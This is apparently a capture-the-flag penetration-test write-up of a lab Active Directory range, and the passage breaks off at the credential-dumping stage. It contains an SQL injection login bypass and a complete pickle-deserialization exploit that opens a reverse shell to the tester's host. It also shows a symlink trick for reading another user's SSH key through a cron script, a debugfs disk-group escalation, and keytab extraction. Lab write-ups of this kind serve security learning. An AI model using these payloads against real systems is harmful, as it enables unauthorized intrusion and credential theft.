# Summary

_CTOS_ is a Medium rated machine range on the _HackSmarter_ platform. It includes 3 hosts within an AD environment, one of these is a Linux webserver, another a Windows workstation and the third is the domain controller. 

In order to fully compromise the target hosts, one must exploit/abuse multiple vulnerabilities and misconfigurations. The full breakdown can be found in the remediation section at the end of the writeup.

## Attack Path Graphical Summary




# Introduction

CTOS Corporation delivers cutting-edge managed services, cloud solutions, and cybersecurity expertise to clients of all sizes. You have been hired to perform their annual penetration test against 3 high-value targets in the Active Directory environment. Your task is to identify all vulnerabilities and (if possible) elevate your privileges to Domain Admin.

## Initial Access

You have been provided VPN access to their internal network, but no other information.

---
# Preliminary Enumeration

## Target Identification

The target machines are _DC01_, _IT-WS01_, _WEB-01_. Having a list with their respective IP address, I attempted to authenticate with an SMB null session:



As seen above, only two of the hosts responded, confirming provided hostnames and the domain name. I have added corresponding entries to my local hosts file:



---
# Full TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -v -p- --min-rate 3000 -T4 -sS -n -Pn -oN Scans/CTOS_Hosts_TCP -iL hostnames.txt -A
```

## _DC01 (10.1.252.198)_ Scan Results

```bash
Nmap scan report for DC01 (10.1.252.198)
Host is up (0.099s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-29 09:44:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: CTOS.CORP, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.CTOS.CORP
[...]
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: CTOS.CORP, Site: Default-First-Site-Name)
[..]
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: CTOS.CORP, Site: Default-First-Site-Name)
[...]
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: CTOS.CORP, Site: Default-First-Site-Name)
[...]
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
[...]
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[...]
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[...]
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC
49724/tcp open  msrpc         Microsoft Windows RPC
49785/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

Uptime guess: 0.015 days (since Sat Aug 29 01:24:22 2026)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-29T09:45:20
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```
### Notes _DC01_ on Scan Results

Standard services for an Active Directory domain controller (DNS, Kerberos, LDAP, SMB, etc.)

## _IT-WS01 (10.1.10.71)_ Scan Results

```bash
Nmap scan report for IT-WS01 (10.1.10.71)
Host is up (0.098s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
135/tcp   open  tcpwrapped
445/tcp   open  tcpwrapped
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: CTOS
|   NetBIOS_Domain_Name: CTOS
|   NetBIOS_Computer_Name: IT-WS01
|   DNS_Domain_Name: CTOS.CORP
|   DNS_Computer_Name: IT-WS01.CTOS.CORP
|   DNS_Tree_Name: CTOS.CORP
[...]
5985/tcp  open  tcpwrapped
49669/tcp open  tcpwrapped
[...]
Host script results:
| smb2-time: 
|   date: 2026-08-29T09:45:24
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

### Notes _IT-WS01_ on Scan Results

- SMB/RPC over default ports.
- RDP and WinRM over default ports.

## _WEB-01 (10.1.77.227)_ Scan Results

```bash
Nmap scan report for WEB-01 (10.1.77.227)
Host is up (0.098s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Home | Enterprise Technology Solutions
|_http-server-header: nginx/1.24.0 (Ubuntu)
[...]
Uptime guess: 0.001 days (since Sat Aug 29 01:45:10 2026)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Notes _WEB-01_ on Scan Results

- _Ubuntu_ host.
- _OpenSSH 9.6p1_ accessible over default port 22.
- _nginx 1.24.0_ HTTP server accessible over default port 80.

---
# _WEB01 (10.1.77.227)_
## _nginx 1.24.0_ HTTP Web Application (80/TCP)

### Tech Stack

#### _cURL_

The following command was used to retrieve HTTP headers from the target web server:


#### Website Browsing

Browsing to `http://WEB-01.CTOS.corp` leads to the following web page:



Within the _About_ page I can gather some of the staff's full names:



Saving these names to a list, I will try to use _[usernamed.py](https://github.com/dact91/usernamed)_ to generate a list of potential usernames:



Spraying these to the DC using _kerbrute_ yields no valid usernames:



> [!note]
> In hindsight, the script itself was lacking the specific username variation - it was since then repaired. Using it now will return valid results.

### Content Discovery

The following command was used to enumerate hidden directories and files on the target web server:

```bash
feroxbuster -u 'http://web-01.ctos.corp/' -w /usr/share/wordlists/dirb/common.txt
```



Browsing to _/login_ leads to a simple login form:



After trying a few basic common and weak credential sets and SQLi payloads - `admin' OR 1=1 -- -` logged me in successfully as `admin`:



Within _Site Archive (IT Audit)_, I can obtain the _backup.zip_ file:



## Foothold
### RCE via Insecure Deserialization

Deflating the archive, it contained _app.py_ among other files.

_app.py_ is a Python webapp script built with Flask. It uses  `pickle`, a Python mechanism for turning objects into bytes and back again. Specifically in this case, `pickle.loads` performs operations while constructing the objects. 

The snippet below reads the cookie from an HTTP request, decodes it from base64 into bytes then runs `pickle.loads()` on the decoded bytes - rebuilding the Python object and returns it:

```python
def get_session():
    cookie = request.cookies.get('ctos_session')
    if cookie:
        try:
            data = base64.b64decode(cookie)
            return pickle.loads(data)
        except:
            pass
    return None
```

Since the cookie is controlled by the client - it controls its contents, once it's decoded it will execute code while the server does not sanitize the input. To abuse that, I forged the following script with _Claude_. It creates a cookie value that, once unpickled by the server, spawns a reverse shell:

```python
import base64
import os
import pickle

LHOST = "10.200.87.225"
LPORT = 8443

REVERSE_SHELL_CMD = (
    f"python3 -c '"
    "import socket,os,pty;"
    f"s=socket.socket();s.connect((\"{LHOST}\",{LPORT}));"
    "os.dup2(s.fileno(),0);"
    "os.dup2(s.fileno(),1);"
    "os.dup2(s.fileno(),2);"
    "pty.spawn(\"/bin/bash\")"
    "'"
)

class PickleRCE:
    def __reduce__(self):
        return (os.system, (REVERSE_SHELL_CMD,))

pickled_payload = pickle.dumps(PickleRCE())
encoded_payload = base64.b64encode(pickled_payload).decode()

print(encoded_payload)
```

Using the above script, I generate a cookie value:



Pasting the cookie value on my browser and reloading the page:



The above triggers a callback to my _netcat_ listener:



Graphically, the vector to obtain the reverse shell is shown below:



To gain shell functionality, I paste the commands and can now confirm command execution as `phil`:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH

python3 -c 'import pty; pty.spawn("/bin/bash")'
```



## Privilege Escalation

### Filesystem Enumeration

Reviewing _ctos_corp.db_ database file, I manage to harvest a password for the previously bypassed web login form:



Reviewing the users on the target host I can note `phil`, the current user, `john` and `root` as the only users with terminal access:



To achieve persistence and stability in this command execution context, I generate SSH keys for `phil`:



Copying the private key to my local host, I then change its permission set and establish an SSH session as `phil`:



### Abusing Backup Script to Compromise `john`

_backup.sh_ is a bash script owned by `root` that performs a backup function: 



Since _backup.sh_ seems to be scheduled (cronjob), I will transfer and run _pspy64_ in order to log background processes for six minutes:



Within the output, I can see that _backup.sh_ is indeed being executed every two minutes by `UID=1001`, which corresponds to `john`:



Since it proved relevant, I review _backup.sh_:

- Defining working directories and files:

```bash
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

LOG_FILE="/var/log/backup/backup.log"
STAGING_DIR="/home/phil/backup_staging"
CONFIG_FILE="$STAGING_DIR/backup_config"
SOURCE_DIR="/opt/ctos_portal"
BACKUP_FILE="/opt/ctos_portal/static/backup.zip"
```

- Creates a log file if necessary:

```bash
if [ ! -f "$LOG_FILE" ]; then
    touch "$LOG_FILE"
    chmod 644 "$LOG_FILE"
```

- Archives contents of _/opt/ctos_portal_ (`$SOURCE_DIR`) into a zipped `$BACKUP_FILE`, excluding its Python venv:

```bash
/usr/bin/zip -q -r "$BACKUP_FILE" "$SOURCE_DIR" -x "$SOURCE_DIR/venv/*" >> "$LOG_FILE" 2>&1
```

- Checks for a configuration file, if it exists - it reads its contents and deletes it, if not - it prints that it didn't find one:

```bash
if [ -f "$CONFIG_FILE" ]; then
    echo "[$(date)] Reading backup configuration from phil's staging..." >> "$LOG_FILE"
    cat "$CONFIG_FILE" >> "$LOG_FILE" 2>&1
    rm -f "$CONFIG_FILE"
    echo "[$(date)] Configuration processed and removed" >> "$LOG_FILE"
else
    echo "[$(date)] No configuration file found in staging directory" >> "$LOG_FILE"
fi
```

Obviously, sights should be set on `STAGING_DIR` - which is on `phil`'s home directory:



_backup_staging_ is empty - does not contain the `CONFIG_FILE` it should. Having the liberty to create the file and its contents, I can abuse the reading functionality it offers to read file I currently have no access to; The obvious target would be `john`'s private SSH key, assuming it exists.

The idea is that the cronjob will read the contents of _backup_config_ and will output it to _/var/log/backup/backup.log_ - a symlink between `john`'s private key to the _backup_config_ file will print the contents of the private key within _/var/log/backup/backup.log_.

- Creating the symlink:

```bash
ln -s /home/john/.ssh/id_rsa /home/phil/backup_staging/backup_config
```



- Retrieving the private key from the log file:



- Authenticating as `john` using the retrieved private key:



### Privilege Escalation via Group Membership

`john` is a member of the _disk_ group, which might be used to escalate privileges:

- Run the following command, a disk report utility in human readable format:

```bash
df -h
```



- The output above contains a filesystem breakdown including the root partition, `/` - `/dev/nvme0n1p2`. 
- _debugfs_ is then used to create directories or read contents of directories. It can be used to read `root`'s SSH private key, for that I will create a _test_ directory, then try to read the _id_rsa_ file. This should enter an interactive session, in which - running the following command should confirm that the escalation is possible:

```bash
debugfs /dev/nvme0n1p2

mkdir test
```



- Then, try to read `root`'s private SSH key or _/etc/shadow_ with `cat /root/.ssh/id_rsa`:



Copying the private key to my local host, changing its permission set and establishing an SSH session as `root`:



Confirming command execution as `root`:



## Post Compromise Enumeration

Suspecting that WEB-01 is domain-joined, I inspect whether it has Kerberos-related configuration files:



One of the files above, _krb5.keytab_, is an encrypted file containing Kerberos principal identities and their secrets keys:



I obtain the file by downloading it to my local host:



On my local host, I can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extract authentication credentials locally. As seen below, it dumps an NTLM hash for the `svc_web` domain user:

